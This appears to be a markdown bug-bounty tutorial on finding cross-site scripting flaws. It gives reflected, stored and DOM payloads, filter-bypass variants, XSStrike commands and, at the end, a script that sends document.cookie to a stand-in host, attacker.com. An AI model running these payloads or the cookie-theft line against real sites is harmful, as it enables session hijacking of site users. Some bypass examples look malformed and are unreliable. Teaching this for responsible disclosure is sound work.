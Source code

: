 # What is XSS (Cross-Site Scripting)? 🤔

```
  - It allows attackers to inject malicious scripts into websites.
  - These scripts then run in the browser of other users who visit that website.
  - The attacker can steal information, manipulate the website’s content, or even take control of a user’s session.
  - Medium Risk ( low impact + high probability = medium risk )
```

# 🎯 Why is XSS Dangerous?
```
 - Steal cookies and session tokens (can take over user accounts). / Keylogging
 - Redirect users to malicious websites. / Phishing / URL Redirection
 - Modify the website’s content.
 - Spread malware.
```


# 📋 Types of XSS:
```
Stored XSS (Persistent):
	- Malicious code is saved on the website’s server (e.g., in comments or profiles).
	- Example: An attacker writes harmful JavaScript in a comment box, and every visitor sees the harmful script.

Reflected XSS:
    - The malicious script is included in a URL or form input.
    - Example: An attacker sends a link with malicious code, and if the victim clicks it, the script runs.

DOM-based XSS:
    - Happens when the client-side script processes untrusted data.
    - Example: A website’s JavaScript dynamically updates the page using URL parameters without validation.
```

# 🔎 How to Hunt for XSS (Cross-Site Scripting)?

## 🛠 Steps to Hunt for XSS:

### 📌 Step 1: Identify User Input Fields
```
Look for places where a website accepts user input and displays it back. These can include:
    - Search boxes
    - Comment sections
    - Login forms
    - URL parameters (GET requests)
    - Cookies and headers
    - File upload functionality
```

### 📌 Step 2: Test for Reflected XSS (Quick Wins)
## Reflected XSS occurs when a script is injected into a URL or input field and gets reflected back immediately.

### ✅ Payloads to Try:
#####  Basic Payloads:
```
<script>alert('XSS');</script>
```

```
<img src=x onerror=alert('XSS')>
```
```
<svg onload=alert('XSS')>
```

### 2. In URL Parameters:
````
Try injecting payloads into URL parameters.

Example:
   php
       - https://example.com/search?query=<script>alert('XSS')</script>
````

### 3.In Input Fields:
```
Enter the payload in form fields, such as a login form, search box, or feedback form.
```

### 📌 Step 3: Test for Stored XSS (Persistent XSS)
## Stored XSS occurs when your malicious input is saved on the server and shown to other users.

### ✅ Places to Check:
```
 - Comment sections
 - Profile fields
 - Message boards
 - File uploads (malicious scripts inside files)
```

### 🚩 Steps:
```
Post a comment like this: <script>alert('Stored XSS');</script> 
  - Refresh the page and see if the script runs for you or other users. 
```


### 📌 Step 4: Test for DOM-Based XSS

## DOM-based XSS happens when the website’s JavaScript manipulates the DOM using user input without proper validation.

### ✅ Payloads to Try:
```
Enter this in the URL:
  https://example.com/#<script>alert('DOM XSS');</script>
  Or test in the input fields:  <input type="text" onfocus="alert('XSS')">
```
### 🚩 Look for JavaScript Functions
```
Check if the website uses functions like innerHTML, document.write(), or eval().
```



### 📌 Step 5: Use XSS Payloads Lists
## Use pre-built XSS payload lists to try various injections.
### 🔗 Payloads All The Things (GitHub):

```
 https://github.com/swisskyrepo/PayloadsAllTheThings
```

### 📌 Step 6: Use XSS Hunting Tools
🧰 1. Burp Suite (Most Popular)
Intercept requests and modify user input to inject XSS payloads.
Use Burp Scanner to automate XSS checks.
🧰 2. OWASP ZAP (Free and Open Source)
Automated scanner for finding XSS and other vulnerabilities.
🧰 3. XSStrike
A dedicated XSS tool that intelligently finds and exploits XSS vulnerabilities.
bash
Copy code
git clone https://github.com/s0md3v/XSStrike
python3 xsstrike.py -u https://example.com
🧰 4. XSS Hunter (Advanced)
Use XSS Hunter to find blind XSS vulnerabilities.
It provides a custom tracking domain to catch XSS that doesn't show immediate output.
📌 Step 7: Bypass Filters (WAF/Firewalls)
Some websites may block basic payloads. Try bypass techniques:

Bypass Tags:

html
Copy code
<<script>alert('XSS');</script>
Using Unicode Encoding:

html
Copy code
<scrİpt>alert('XSS')</scrİpt>
Using Obfuscation:

html
Copy code
<img src=x onerror='javasc'+'ript:alert("XSS")'>
Using Event Handlers:

html
Copy code
<input type="text" onfocus="alert('XSS')">
📌 Step 8: Report XSS Vulnerabilities
If you find an XSS vulnerability, report it responsibly to the website owner or use bug bounty platforms like:

HackerOne (https://hackerone.com)
Bugcrowd (https://bugcrowd.com)
Intigriti (https://www.intigriti.com)
🚩 Signs of a Successful XSS:
You see an alert box.
You can steal cookies using:
javascript
Copy code
<script>
    fetch('https://attacker.com/steal?cookie=' + document.cookie);
</script>
